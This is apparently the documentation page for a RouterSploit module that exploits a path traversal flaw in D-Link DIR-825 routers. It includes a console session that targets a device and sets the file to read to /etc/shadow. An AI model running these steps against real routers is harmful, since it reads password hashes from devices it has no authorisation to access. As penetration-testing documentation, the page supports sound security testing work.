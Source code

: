 # D-Link DIR-825 Path Traversal

## Description
Module exploits D-Link DIR-825 path traversal vulnerability, which allows reading files from the device

## Authors
* Samuel Huntley # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/38718/](https://www.exploit-db.com/exploits/38718/)

## Vulnerable devices
* D-Link DIR-825

## Usage
```
rsf > use exploits/dlink/dir_825_path_traversal
rsf (D-Link DIR-825 Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to log in with
   password                          Password to log in with
   filename     /etc/shadow          File to read


rsf (D-Link DIR-825 Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DIR-825 Path Traversal) > run
[*] Running module...
```

